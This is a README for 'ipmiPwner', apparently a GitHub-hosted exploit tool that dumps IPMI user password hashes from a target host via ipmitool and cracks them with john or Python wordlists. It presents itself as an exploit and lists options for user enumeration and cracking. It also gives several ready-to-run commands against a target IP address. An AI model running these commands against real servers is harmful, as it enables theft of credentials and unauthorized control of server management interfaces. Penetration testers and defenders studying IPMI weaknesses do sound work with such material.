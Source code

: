 # ipmiPwner
This exploit dump the user hash provided through the use of ipmitool

The script has by default a list of most common users so if no valid user is provided the script will default to the list of most common users, although it can also provide a list of users 

## Usage:

- ./requirements.sh
- python3 ipmipwner.py -h

## Parameters:
- --help   : Displays the help panel
** Required Arguments **
- --host   : The host of the target
** Cracking Arguments **
- -c       : Choose an option to crack the hash, the -pW and -oH is required for this option, options: john | python
- -uW      : The user wordlist to use, this is enabled by default if the user is False since the program has a small users dictionary by default.
- -pW      : The password wordlist to crack the hash, This parameter is required if cracking parameter is enabled
- -oH      : Output hash file, This parameter is required if cracking parameter is enabled
- -oC      : Output cracked hash file, This parameter is required if cracking with python is used.
** Optional Arguments **
- -p       : The port where the service runs, by default: 623
- -u       : Valid user to extract the hash
- -d       : Delay between each request in case of errors, by default: 20
- -r       : User validation attempts in case of errors, by default: 2

## Examples:
```python3 ipmipwner.py --host 192.168.1.12 -c john -oH hash -pW /usr/share/wordlists/rockyou.txt
python3 ipmipwner.py --host 192.168.1.12 -oH hash
python3 ipmipwner.py --host 192.168.1.12 -uW /opt/SecLists/Usernames/cirt-default-usernames.txt -oH hash
python3 ipmipwner.py --host 192.168.1.12 -u root -c john -pW /usr/share/wordlists/rockyou.txt -oH hash
python3 ipmipwner.py --host 192.168.1.12 -p 624 -uW /opt/SecLists/Usernames/cirt-default-usernames.txt -c python -pW /usr/share/wordlists/rockyou.txt -oH hash -oC crackedHash
```
